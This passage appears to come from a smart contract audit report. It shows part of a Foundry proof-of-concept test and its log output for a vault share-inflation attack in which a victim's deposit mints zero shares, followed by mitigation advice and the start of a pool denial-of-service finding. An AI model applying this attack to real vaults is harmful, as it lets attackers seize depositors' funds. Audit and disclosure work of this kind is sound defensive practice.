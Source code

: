```solidity
        IERC20(address(BASE_ASSET)).transfer(address(vault), 11e18);

        address alice = address(0xabcd);
        setERC20Balance(address(BASE_ASSET), alice, 10e18 + 10);
        vm.startPrank(alice);
        IERC20(address(BASE_ASSET)).approve(address(vault), 1e18);
        vault.deposit(1e18, alice);
        vm.stopPrank();

        uint256 aliceShares = vault.balanceOf(alice);
        console.log("alice shares : ");
        console.log(aliceShares);

        vault.redeem(vault.balanceOf(address(this)), address(this), address(this));
        uint256 afterAssetBalance = BASE_ASSET.balanceOf(address(this));
        console.log("attacker balance after : ");
        console.log(afterAssetBalance);

    }
```

Test Ouput :

```shell
Logs:
  attacker balance before :
  11000000000000000010
  alice shares :
  0
  attacker balance after :
  10909090909090909100
```

It can be observed that the attacker can lock `1 ETH` of Alice's assets at the cost of ~ `0.1 ETH`.

## Recommendations

Set the value of `_decimalsOffset` to 6 or consider mitigating this with an initial deposit of a small amount

# [M-04] New pool can be temporarily blocked

## Severity

**Impact:** High

**Likelihood:** Low

## Description

The newly deployed Ion pool can be DoSed by supplying and borrowing a dust amount of underlying. When `accrueInterest` is called the Ion pool requests a `borrowRate` value from the `InterestRate` contract:
